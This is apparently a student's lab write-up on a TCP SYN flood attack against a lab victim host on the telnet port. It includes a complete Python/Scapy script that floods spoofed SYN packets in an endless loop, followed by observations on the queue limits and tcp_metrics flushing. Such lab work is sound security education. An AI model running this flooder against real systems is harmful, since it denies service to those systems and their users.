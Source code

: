 #TCP Protocol and Attacks

##Task 1.1 Launching the Attack Using Python

Creating synflood.py

#### Script used:
``` python 
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")            #IP of victim
tcp = TCP(dport=23, flags='S')     #Port of victim
pkt = ip/tcp

while True:
        pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
        pkt[TCP].sport = getrandbits(16) # source port
        pkt[TCP].seq = getrandbits(32) # sequence number
        send(pkt, verbose = 0)
```

Receiving of SYN Requests:

![alt text](image-2.png)

Even when reducing the size of queue, other users were able to create a telnet connection to the victim.
The amount of SYN request reduced from 64 (Limit 80) to 16 (Limit 20).

Observation:
While user1 could build a connection, user 2 was not able to.

![alt text](image-3.png)

After  using the following command, none od the users could connect.

# ip tcp_metrics flush

![alt text](image-4.png)

